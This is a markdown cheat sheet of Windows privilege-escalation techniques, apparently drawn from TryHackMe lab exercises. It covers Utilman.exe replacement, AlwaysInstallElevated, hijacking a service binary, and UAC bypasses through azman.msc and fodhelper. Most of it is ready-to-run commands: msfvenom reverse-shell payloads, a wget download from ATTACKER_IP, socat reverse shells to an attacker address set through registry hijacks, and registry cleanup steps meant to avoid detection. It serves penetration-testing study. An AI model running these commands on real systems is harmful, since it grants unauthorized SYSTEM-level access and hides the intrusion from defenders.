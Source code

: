 ```yaml
---
title: Escalation
description:  Common ways for the attacker to gain and execute commands with elevated privileges
---
```



## Utilman.exe
 Utilman is a built-in Windows application used to provide Ease of Access options during the lock screen

Since Utilman is run with SYSTEM privileges, we will effectively gain SYSTEM privileges if we replace the original binary for any payload we like. As we can take ownership of any file, replacing it is trivial.

1. Start by taking ownership with the following command
```cmd
C:\> takeown /f C:\Windows\System32\Utilman.exe
SUCCESS: The file (or folder): "C:\Windows\System32\Utilman.exe" now owned by user "WINPRIVESC2\thmtakeownership".
```
Being the owner of a file doesn't mean that you have privileges over it, but you can assign yourself any privileges you need.

2. Give your user full permissions over utilman.exe you with the following command
```cmd
C:\> icacls C:\Windows\System32\Utilman.exe /grant THMTakeOwnership:F
processed file: Utilman.exe
Successfully processed 1 files; Failed processing 0 files
```
3. Replace utilman.exe with a copy of cmd.exe
```cmd
C:\Windows\System32\> copy cmd.exe utilman.exe
        1 file(s) copied.
```
4. Lock the screen from the start menu, and click on the "Ease of Access" button

Since we replaced utilman.exe with a copy of cmd.exe, we will get a command prompt with SYSTEM privileges.

## AlwaysInstallElevated
Windows installer files (.msi) are used to install applications on the system and they usually run with the privilege level of the user that starts it. However, these can be configured to run with higher privileges from any user account and could potentially allow us to generate a malicious MSI file that would run with admin privileges.

This method requires two registry values to be set. You can query these from the command line using the commands below.

```cmd
C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```
Both need to be set, otherwise exploitation will not be possible. 

You can generate a malicious .msi file using msfvenom
```bash 
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_MACHINE_IP LPORT=LOCAL_PORT -f msi -o malicious.msi
```

Once you have transferred the file you have created, you can run the installer with the command below
```cmd
C:\> msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi
```

## Windows Services
If the executable associated with a service has weak permissions that allow an attacker to modify or replace it, the attacker can gain the privileges of the service's account trivially.
1. Query the service configuration using sc
```cmd
C:\> sc qc WindowsScheduler 
```
2. Proceed to check the permissions on the executable:
```cmd
C:\Users\thm-unpriv>icacls C:\PROGRA~2\SYSTEM~1\WService.exe
```
3. Generate an exe-service payload using msfvenom and serve it through a python webserver:
```bash
user@attackerpc$msfvenom -pwindows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445-fexe-service -orev-svc.exe
```
We can then pull the payload from Powershell with the following command:
```bash
wget http://ATTACKER_IP:8000/rev-svc.exe -O rev-svc.exe
```
Once the payload is in the Windows server, we proceed to replace the service executable with our payload.

```cmd
C:\> cd C:\PROGRA~2\SYSTEM~1\
C:\PROGRA~2\SYSTEM~1> move WService.exe WService.exe.bkp
        1 file(s) moved.
C:\PROGRA~2\SYSTEM~1> move C:\Users\unpriviledged\rev-svc.exe WService.exe
        1 file(s) moved.
C:\PROGRA~2\SYSTEM~1> icacls WService.exe /grant Everyone:F
        Successfully processed 1 files.
```
Finally, execute.
```cmd
C:\> sc stop windowsscheduler
C:\> sc start windowsscheduler
```
## AutoElevate

Some executables can auto-elevate without any user intervention. This applies to most of the Control Panel's functionality and some executables provided with Windows.
For an application to auto-elevate:
- The executable must be signed by the Windows Publisher
- The executable must be contained in a trusted directory, like %SystemRoot%/System32/ or %ProgramFiles%/

Executable files (.exe) must declare the autoElevate element inside their manifests.  To check a file's manifest, we can use sigcheck, a tool provided as part of the Sysinternals suite. 

## azman.msc

Open the Run prompt, type "azman.msc" and press OK.  This will be spawned from the mmc.exe process with elevated privileges.

To open a shell, we will abuse the application's help feature.

1. In the navigation menu, select `Help > Help Topics`
2. Right click anywhere on the help article and select `View Source`

This will spawn a notepad process that we can leverage to get a shell.  Go to `File > Open`, select All Files in the dropdown, and go to `C:\Windows\System32` and search for cmd.exe.

Right-click and select Open.  You will now have a command prompt opened with elevated access!

## Fodhelper

Check to see if your user is part of the Administrators group and that it is running with a medium integrity token

```cmd
C:\Windows\system32>whoami
myserver\attacker
C:\Windows\system32>net user attacker | find "Local Group"
Local Group Memberships      *Administrators       *Users                
C:\Windows\system32>whoami /groups | find "Label"
Mandatory Label\Medium Mandatory Level                        Label            S-1-16-8192
```
We set the required registry values to associate the ms-settings class to a reverse shell

```cmd
C:\> set REG_KEY=HKCU\Software\Classes\ms-settings\Shell\Open\command
C:\> set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:<attacker_ip>:4444 EXEC:cmd.exe,pipes"
C:\> reg add %REG_KEY% /v "DelegateExecute" /d "" /f
The operation completed successfully.
C:\> reg add %REG_KEY% /d %CMD% /f
The operation completed successfully.

C:\> fodhelper.exe
```
And another technique...

```cmd
C:\> set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:<attacker_ip>:4445 EXEC:cmd.exe,pipes"

C:\> reg add "HKCU\Software\Classes\.thm\Shell\Open\command" /d %CMD% /f 
The operation completed successfully.

C:\> reg add "HKCU\Software\Classes\ms-settings\CurVer" /d ".thm" /f 
The operation completed successfully. 

C:\> fodhelper.exe
```

To avoid detection, we need to clean up after ourselves with the following commands:
```cmd
reg delete "HKCU\Software\Classes\.thm\" /f
reg delete "HKCU\Software\Classes\ms-settings\" /f
```

## Popular Tools

### WinPEAS
WinPEAS is a script that search for possible paths to escalate privileges on Windows hosts.
- [https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS)

### PrivescCheck
This script aims to identify Local Privilege Escalation (LPE) vulnerabilities that are usually due to Windows configuration issues, or bad practices. It can also gather useful information for some exploitation and post-exploitation tasks.
- [https://github.com/itm4n/PrivescCheck](https://github.com/itm4n/PrivescCheck)

### WES-NG
WES-NG is a tool based on the output of Windows' systeminfo utility which provides the list of vulnerabilities the OS is vulnerable to, including any exploits for these vulnerabilities.
- [https://github.com/bitsadmin/wesng](https://github.com/bitsadmin/wesng)

